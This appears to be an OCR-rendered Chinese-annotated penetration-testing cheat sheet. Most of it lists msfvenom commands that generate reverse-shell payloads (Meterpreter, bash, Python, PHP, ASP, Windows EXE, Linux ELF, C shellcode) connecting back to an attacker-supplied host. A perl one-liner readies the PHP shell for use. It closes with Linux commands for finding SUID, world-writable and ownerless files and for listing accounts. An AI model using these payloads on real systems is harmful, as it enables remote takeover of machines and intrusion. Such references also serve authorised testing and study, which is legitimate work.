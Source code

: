 msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 -e -a x86 --platform win -f asp -o file.asp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 -e x86/shikata_ga_nai -b "\x00" -a x86 --platform win -f c
MSF 生成在 Linux 下反弹的 Meterpreter Shell
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 -e -f elf -a x86 --platform linux -o shell
MSF 生成反弹 Shell (C Shellcode)
msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=443 -b "\x00\x0a\x0d" -a x86 --platform win -f c
MSF 生成反弹 Python Shell
msfvenom -p cmd/unix/reverse_python LHOST=127.0.0.1 LPORT=443 -o shell.py
MSF 生成反弹 ASP Shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp -a x86 --platform win -o shell.asp
MSF 生成反弹 Bash Shell
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -o shell.sh
MSF 生成反弹 PHP Shell
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -o shell.php
add <?php at the beginning
perl -i~ -0777pe's/^/<?php \n/' shell.php
MSF 生成反弹 Win Shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe -a x86 --platform win -o shell.exe
Linux 常用安全命令
# 使用 uid 查找对应的程序
find / -uid 0 -perm -4000
# 查找哪里拥有写权限
find / -perm -o=w
# 查找名称中包含点和空格的文件
find / -name " " -print
find / -name ".." -print
find / -name ". " -print
find / -name " " -print
# 查找不属于任何人的文件
find / -nouser
# 查找未链接的文件
lsof +L1
# 获取进程打开端口的信息
lsof -i
# 看看 ARP 表中是否有奇怪的东西
arp -a
# 查看所有账户
getent passwd
# 查看所有用户组
getent group